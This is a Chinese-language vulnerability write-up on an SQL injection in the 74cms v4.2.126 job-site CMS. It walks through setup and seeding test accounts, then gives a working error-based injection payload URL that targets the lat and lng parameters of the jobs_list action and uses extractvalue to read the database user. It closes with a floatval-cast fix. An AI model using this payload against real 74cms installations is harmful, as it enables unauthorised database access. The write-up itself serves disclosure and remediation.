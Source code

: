 74cms v4.2.126-通杀sql注入
==========================

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId26.png)

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId28.png)

0x02.2注册普通账号方便测试
--------------------------

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId30.png)

0x03 sql漏洞演示
================

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId32.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId33.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId34.png)

0x04 漏洞原理
=============

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId36.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId37.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId38.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId39.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId40.png)

16.png

说明我们的猜想是没有错的。

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId41.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId42.png)

所以最终我们符合条件的内容都会赋值为\$this-\>params

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId43.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId44.png)

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId45.png)

0x05 修复方法
=============

![](./.resource/74cmsv4.2.126-通杀sql注入/media/rId47.png)

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
